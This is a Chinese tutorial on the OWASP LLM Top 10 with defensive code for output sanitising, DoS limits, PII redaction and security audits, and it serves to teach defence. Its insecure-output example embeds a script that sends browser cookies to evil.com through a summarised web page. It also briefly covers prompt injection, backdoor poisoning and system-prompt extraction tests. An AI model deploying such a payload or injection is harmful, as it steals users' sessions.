




# 96. OWASP LLM Top 10 与系统化安全评估

> **知识库编号：KB96** | **阶段：18** | **难度：中级** | **前置知识：KB94（Prompt Injection）、KB95（越狱攻击）**
>
> 本篇系统讲解 OWASP LLM Top 10 安全风险清单，建立从风险评估到审计实施的完整安全评估框架。

---

## 1. OWASP LLM Top 10 概述

### 1.1 什么是 OWASP LLM Top 10

OWASP（Open Web Application Security Project）在 2023 年发布了专门针对 LLM 应用的十大安全风险清单，帮助开发者系统识别和修复 LLM 应用中的安全漏洞。

### 1.2 十大风险一览



---

## 2. 十大风险详解

### 2.1 LLM01：Prompt Injection（提示注入）

**风险描述**：攻击者通过精心构造的输入劫持 LLM 行为，已在 KB94 详细讲解。

| 维度 | 内容 |
|------|------|
| 风险等级 | 极高 |
| 攻击面 | 所有文本输入 + 外部数据 |
| 核心防御 | 指令隔离 + 输入过滤 + 输出检测 |

### 2.2 LLM02：Insecure Output Handling（不安全的输出处理）

**风险描述**：LLM 生成的内容被直接执行或渲染，导致 XSS、代码注入等下游安全漏洞。

**攻击示例**：

```
用户输入：请总结这个网页
网页内容：<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>

LLM 输出：网页中包含一个脚本...
应用直接渲染 LLM 输出 -> 触发 XSS
```

**防御**：

```python
import html
import re

class SecureOutputHandler:
    """安全的 LLM 输出处理"""

    @staticmethod
    def escape_html(text: str) -> str:
        """HTML 转义，防止 XSS"""
        return html.escape(text)

    @staticmethod
    def strip_scripts(text: str) -> str:
        """移除脚本标签"""
        return re.sub(r'<script[^>]*>.*?</script>', '', text, flags=re.IGNORECASE | re.DOTALL)

    @staticmethod
    def validate_markdown(text: str) -> str:
        """验证 Markdown 中的链接安全性"""
        # 只允许 https 链接
        text = re.sub(r'\[([^\]]+)\]\(http://', r'[\1](https://', text)
        # 移除 javascript: 协议
        text = re.sub(r'javascript:', '', text, flags=re.IGNORECASE)
        return text

    def process(self, llm_output: str, render_mode: str = "html") -> str:
        """根据渲染模式安全处理输出"""
        text = self.strip_scripts(llm_output)
        if render_mode == "html":
            text = self.escape_html(text)
        elif render_mode == "markdown":
            text = self.validate_markdown(text)
        return text

# 使用示例
handler = SecureOutputHandler()
unsafe_output = '<script>alert("XSS")</script>正常文本'
safe_output = handler.process(unsafe_output)
print(f"安全输出: {safe_output}")
# 输出: &lt;script&gt;alert("XSS")&lt;/script&gt;正常文本
```

### 2.3 LLM03：Training Data Poisoning（训练数据投毒）

**风险描述**：攻击者篡改或注入恶意训练数据，使模型学到后门行为。

**防御要点**：
- 数据来源验证：只使用可信数据源
- 数据审计：定期检查训练数据中的异常模式
- 差分隐私训练：添加噪声保护训练数据

### 2.4 LLM04：Model DoS（模型拒绝服务）

**风险描述**：攻击者通过超长输入、复杂推理请求或资源耗尽攻击，使 LLM 服务不可用。

```python
class DoSProtection:
    """模型 DoS 防护"""

    MAX_INPUT_LENGTH = 5000      # 最大输入字符数
    MAX_TOKENS_PER_REQUEST = 4000  # 最大 Token 数
    RATE_LIMIT_PER_MINUTE = 30    # 每分钟请求限制
    MAX_CONCURRENT_REQUESTS = 10  # 最大并发

    def check_input(self, user_input: str) -> tuple[bool, str]:
        """检查输入是否可能导致 DoS"""
        if len(user_input) > self.MAX_INPUT_LENGTH:
            return False, f"输入过长: {len(user_input)}/{self.MAX_INPUT_LENGTH}"
        # 检测重复模式（如字符填充攻击）
        if self._detect_repetition(user_input):
            return False, "检测到重复填充攻击"
        return True, "通过"

    def _detect_repetition(self, text: str) -> bool:
        """检测重复填充"""
        if len(text) < 100:
            return False
        # 检查单个字符是否占超过50%
        from collections import Counter
        char_freq = Counter(text)
        most_common = char_freq.most_common(1)[0]
        if most_common[1] / len(text) > 0.5:
            return True
        return False

    def estimate_cost(self, input_tokens: int, output_tokens: int) -> float:
        """估算请求成本"""
        # 简化的成本模型
        input_cost = input_tokens * 0.00001  # $0.01/1K tokens
        output_cost = output_tokens * 0.00003  # $0.03/1K tokens
        return input_cost + output_cost
```

### 2.5 LLM05：Supply Chain（供应链安全）

**风险描述**：第三方模型、数据集、插件或依赖库中包含恶意代码或后门。

```python
# 供应链安全检查
SUPPLY_CHAIN_CHECKLIST = {
    "模型来源": [
        "是否使用官方渠道下载模型？",
        "模型是否有哈希校验？",
        "是否检查了模型的 license？",
    ],
    "数据来源": [
        "训练数据是否来自可信源？",
        "是否检查了数据中的异常模式？",
        "数据集是否经过安全审计？",
    ],
    "第三方依赖": [
        "pip 包是否固定版本？",
        "是否检查了依赖的已知漏洞？",
        "是否使用了 requirements.txt 锁定？",
    ],
    "插件/工具": [
        "第三方插件是否经过安全审查？",
        "插件是否有最小权限限制？",
        "插件是否有沙箱隔离？",
    ],
}

def audit_supply_chain():
    """供应链安全审计"""
    for category, items in SUPPLY_CHAIN_CHECKLIST.items():
        print(f"\n{category}:")
        for item in items:
            print(f"  [ ] {item}")
```

### 2.6 LLM06：Sensitive Information Disclosure（敏感信息泄露）

**风险描述**：LLM 在输出中泄露训练数据中的个人信息、API Key、系统配置等敏感信息。

```python
import re

class PIIDetector:
    """个人身份信息（PII）检测器"""

    PATTERNS = {
        "SSN": r"\b\d{3}-\d{2}-\d{4}\b",
        "CreditCard": r"\b\d{4}[\s-]?\d{4}[\s-]?\d{4}[\s-]?\d{4}\b",
        "Email": r"\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}\b",
        "Phone": r"\b1[3-9]\d{9}\b",
        "APIKey": r"sk-[a-zA-Z0-9]{20,}",
        "IDCard": r"\b\d{15}|\d{17}[\dXx]\b",
        "BankAccount": r"\b\d{16,19}\b",
    }

    def __init__(self):
        self.compiled = {name: re.compile(p) for name, p in self.PATTERNS.items()}

    def detect(self, text: str) -> list[dict]:
        """检测文本中的所有 PII"""
        findings = []
        for name, pattern in self.compiled.items():
            for match in pattern.finditer(text):
                findings.append({
                    "type": name,
                    "value": match.group(),
                    "start": match.start(),
                    "end": match.end(),
                })
        return findings

    def redact(self, text: str) -> str:
        """脱敏处理"""
        for name, pattern in self.compiled.items():
            text = pattern.sub(f"[{name}_REDACTED]", text)
        return text

# 使用
pii = PIIDetector()
text = "我的邮箱是 test@example.com，手机是13800138000，信用卡 4111-1111-1111-1111"
findings = pii.detect(text)
print(f"检测到 {len(findings)} 个 PII")
redacted = pii.redact(text)
print(f"脱敏后: {redacted}")
# 输出: 我的邮箱是 [Email_REDACTED]，手机是[Phone_REDACTED]，信用卡 [CreditCard_REDACTED]
```

### 2.7 LLM07：Insecure Plugin Design（不安全的插件设计）

**风险描述**：Agent 的工具/插件缺乏输入验证、权限控制或沙箱隔离，被攻击者利用执行恶意操作。

**防御原则**：
- 所有工具输入必须验证
- 工具权限最小化
- 危险操作需要确认

### 2.8 LLM08：Excessive Agency（过度授权）

**风险描述**：Agent 被授予了超出任务需要的权限（如写文件、发邮件、执行代码），导致安全风险放大。



### 2.9 LLM09：Overreliance（过度依赖）

**风险描述**：用户或系统过度信任 LLM 输出，未对输出进行验证，导致基于错误信息做出决策。

**防御**：
- 在关键场景中标记 LLM 输出为"参考建议"
- 建立事实核查机制
- 对 LLM 输出设置置信度阈值

### 2.10 LLM10：Model Theft（模型窃取）

**风险描述**：攻击者通过大量 API 调用或模型提取技术，复制模型参数或功能。

**防御**：
- API 调用频率限制
- 输出水印
- 异常使用模式检测

---

## 3. 系统化安全评估框架

### 3.1 评估流程



### 3.2 风险等级矩阵

| 等级 | 影响 | 可能性 | 处置原则 |
|------|------|--------|---------|
| 严重 | 数据泄露/系统被控 | 高 | 立即修复，上线前必须解决 |
| 高 | 功能被劫持 | 中 | 发布前修复 |
| 中 | 性能下降/信息泄露 | 中 | 计划修复 |
| 低 | 有限影响 | 低 | 评估后决定 |

### 3.3 OWASP Top 10 评估清单

```python
OWASP_LLM_ASSESSMENT = {
    "LLM01_Prompt_Injection": {
        "风险等级": "严重",
        "检查项": [
            "是否实现了输入过滤？",
            "是否使用了指令隔离（分隔符）？",
            "是否对外部数据做了标记？",
            "是否有输出检测？",
            "高危操作是否需要人工确认？",
        ],
        "测试方法": "使用已知攻击样本测试拦截率",
    },
    "LLM02_Insecure_Output": {
        "风险等级": "高",
        "检查项": [
            "LLM 输出是否经过 HTML 转义？",
            "是否检测了输出中的脚本标签？",
            "Markdown 链接是否验证了协议？",
            "输出是否经过 PII 脱敏？",
        ],
        "测试方法": "注入 XSS 载荷测试输出处理",
    },
    "LLM03_Training_Poisoning": {
        "风险等级": "高",
        "检查项": [
            "训练数据是否来自可信源？",
            "是否检查了数据中的后门模式？",
            "微调数据是否经过审计？",
            "是否有数据版本管理？",
        ],
        "测试方法": "检查数据来源和数据审计报告",
    },
    "LLM04_Model_DoS": {
        "风险等级": "中",
        "检查项": [
            "是否有输入长度限制？",
            "是否有请求频率限制？",
            "是否有并发限制？",
            "是否有成本监控？",
        ],
        "测试方法": "发送超长输入和并发请求测试",
    },
    "LLM05_Supply_Chain": {
        "风险等级": "高",
        "检查项": [
            "模型是否来自官方渠道？",
            "依赖包是否固定版本？",
            "是否有依赖漏洞扫描？",
            "第三方插件是否审查？",
        ],
        "测试方法": "运行 pip-audit / npm audit",
    },
    "LLM06_Sensitive_Info": {
        "风险等级": "严重",
        "检查项": [
            "输出是否检测 PII？",
            "是否对敏感信息做了脱敏？",
            "日志中是否记录了敏感信息？",
            "系统提示词是否可以被提取？",
        ],
        "测试方法": "测试提取系统提示词和训练数据",
    },
    "LLM07_Insecure_Plugin": {
        "风险等级": "高",
        "检查项": [
            "工具输入是否验证？",
            "工具是否有权限限制？",
            "是否使用了沙箱？",
            "危险工具是否需要确认？",
        ],
        "测试方法": "注入恶意工具参数测试",
    },
    "LLM08_Excessive_Agency": {
        "风险等级": "严重",
        "检查项": [
            "Agent 是否只有必需工具？",
            "是否有操作日志？",
            "高危操作是否需要 HITL？",
            "是否有操作回滚机制？",
        ],
        "测试方法": "检查工具列表和权限配置",
    },
    "LLM09_Overreliance": {
        "风险等级": "中",
        "检查项": [
            "关键决策是否有人工复核？",
            "是否有事实核查机制？",
            "是否标注了置信度？",
            "是否有错误处理流程？",
        ],
        "测试方法": "检查决策流程文档",
    },
    "LLM10_Model_Theft": {
        "风险等级": "中",
        "检查项": [
            "是否有 API 频率限制？",
            "是否有异常使用检测？",
            "是否有输出水印？",
            "是否监控模型提取攻击？",
        ],
        "测试方法": "模拟高频调用测试防护",
    },
}

def run_owasp_audit():
    """运行 OWASP LLM Top 10 安全审计"""
    for risk_id, details in OWASP_LLM_ASSESSMENT.items():
        print(f"\n{'='*60}")
        print(f"{risk_id}")
        print(f"风险等级: {details['风险等级']}")
        print(f"测试方法: {details['测试方法']}")
        print("检查项:")
        for item in details["检查项"]:
            print(f"  [ ] {item}")

# 运行审计
run_owasp_audit()
```

### 3.4 安全评估报告模板

```python
def generate_security_report(app_name: str, audit_results: dict) -> str:
    """生成安全评估报告"""
    report = f"""
# {app_name} LLM 安全评估报告

## 1. 评估概述
- 评估日期: 2026-08-27
- 评估标准: OWASP LLM Top 10
- 评估范围: {app_name}

## 2. 风险摘要
"""
    critical = sum(1 for r in audit_results.values() if r["level"] == "严重")
    high = sum(1 for r in audit_results.values() if r["level"] == "高")
    medium = sum(1 for r in audit_results.values() if r["level"] == "中")
    low = sum(1 for r in audit_results.values() if r["level"] == "低")

    report += f"""
| 风险等级 | 数量 |
|---------|------|
| 严重 | {critical} |
| 高 | {high} |
| 中 | {medium} |
| 低 | {low} |
"""

    report += "\n## 3. 详细发现\n\n"
    for risk_id, result in audit_results.items():
        status = "PASS" if result["passed"] else "FAIL"
        report += f"### {risk_id} [{status}]\n"
        report += f"- 风险等级: {result['level']}\n"
        report += f"- 检查项: {result['checked']}/{result['total']}\n"
        if not result["passed"]:
            report += f"- 未通过项: {result['failures']}\n"
            report += f"- 修复建议: {result['fix']}\n"
        report += "\n"

    report += """
## 4. 修复优先级
1. 严重风险 - 上线前必须修复
2. 高风险 - 发布前修复
3. 中风险 - 计划修复
4. 低风险 - 评估后决定

## 5. 持续监控
- 建议接入 LangSmith 追踪所有 LLM 调用
- 建议建立安全告警机制
- 建议定期重新评估
"""
    return report
```

---

## 4. 与 LangSmith 集成的安全监控

```python
from langsmith import traceable
import json

@traceable(name="security_audit")
def security_audit_pipeline(user_input: str, llm_output: str) -> dict:
    """安全审计流水线 - 所有步骤被 LangSmith 追踪"""
    results = {}

    # LLM01: Prompt Injection 检测
    from langgraph.graph import StateGraph
    # （使用 KB94 中构建的 PromptInjectionFilter）

    # LLM02: 输出安全处理
    handler = SecureOutputHandler()
    safe_output = handler.process(llm_output)
    results["LLM02"] = safe_output != llm_output

    # LLM06: PII 检测
    pii = PIIDetector()
    pii_findings = pii.detect(llm_output)
    results["LLM06"] = len(pii_findings) > 0

    # LLM04: DoS 检测
    dos = DoSProtection()
    dos_safe, dos_reason = dos.check_input(user_input)
    results["LLM04"] = not dos_safe

    return {
        "input": user_input[:100],
        "output": safe_output[:100],
        "pii_detected": results.get("LLM06", False),
        "dos_triggered": results.get("LLM04", False),
        "xss_prevented": results.get("LLM02", False),
    }
```

---

## 5. 安全开发生命周期（SDL）



---

## 6. 小结

| 要点 | 内容 |
|------|------|
| OWASP LLM Top 10 | 10 大风险：注入、输出处理、投毒、DoS、供应链、信息泄露、插件、过度授权、过度依赖、模型窃取 |
| 评估流程 | 资产识别→威胁建模→风险评估→漏洞扫描→渗透测试→报告→修复→监控 |
| 风险等级 | 严重/高/中/低，处置原则从"立即修复"到"评估后决定" |
| 安全生命周期 | 需求→设计→开发→测试→部署→运维，每阶段都有安全活动 |
| 监控集成 | LangSmith 追踪 + 安全告警 + 定期重评 |

> **下一篇**：KB97 将讲解红队测试方法论与自动化安全测试，从攻击者视角模拟真实攻击。
